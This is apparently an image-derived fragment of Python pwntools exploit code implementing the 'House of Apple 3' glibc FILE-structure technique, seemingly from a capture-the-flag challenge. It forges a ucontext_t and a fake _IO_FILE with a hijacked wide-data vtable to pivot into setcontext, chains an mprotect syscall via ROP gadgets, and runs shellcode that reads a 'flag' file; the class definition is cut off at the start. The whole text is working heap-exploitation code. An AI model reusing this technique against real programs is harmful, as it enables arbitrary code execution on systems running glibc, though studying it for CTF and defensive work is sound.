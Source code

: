 ```python
    rcx = 0
    r8 = 0
    r9 = 0
    rdx = 0

    def __init__(self):
        pass

    def set_value(self, offset, value):
        if(offset <= 0 or offset > self.length - 8):
            raise Exception("Out bound!")
        temp = self.bin_str
        temp = temp[:offset] + struct.pack('Q', value) + temp[offset + 8:]
        self.bin_str = temp

    def __bytes__(self):
        self.set_value(0x28, self.r8)
        self.set_value(0x30, self.r9)     
        self.set_value(0x48, self.r12)
        self.set_value(0x50, self.r13)
        self.set_value(0x58, self.r14)
        self.set_value(0x60, self.r15)
        self.set_value(0x68, self.rdi)
        self.set_value(0x70, self.rsi)
        self.set_value(0x78, self.rbp)
        self.set_value(0x80, self.rbx)
        self.set_value(0x88, self.rdx)
        self.set_value(0x98, self.rcx)
        self.set_value(0xa0, self.rsp)
        self.set_value(0xa8, self.rip)  # rip
        self.set_value(0xe0, self.rip)  # readable

        return self.bin_str

def house_of_apple3(fake_IO_file_addr):
    fake_ucontext = ucontext_t()
    fake_ucontext.rip = ret
    fake_ucontext.rsp = fake_IO_file_addr + 0x300
    fake_ucontext.rdi = fake_IO_file_addr >> 12 << 12
    fake_ucontext.rsi = 0x2000
    fake_ucontext.rdx = 7

    fake_IO_file = flat(
        {
            0: 0xffffffffffffffff,  # _IO_read_end
            0x18: 1,                # _IO_write_ptr
            0x30: fake_IO_file_addr + 0x100,    # _IO_buf_end = _codecvt.step
            0x88: fake_IO_file_addr + 0x40,     # _codecvt
            0x90: _IO_wide_data,
            0xc8: _IO_wfile_jumps + 0x8,        # vtable
            0xf0: {
                0: 0,   # key
                0x28: setcontext,     # fun_ptr
                0x30: bytes(fake_ucontext)[0x30:]
            },
            0x2f0: [
                pop_rax_ret, 10,
                syscall_ret,
                fake_IO_file_addr + 0x330
            ],
            0x320: asm(shellcraft.cat('flag'))
        }, filler='\x00'
    )
```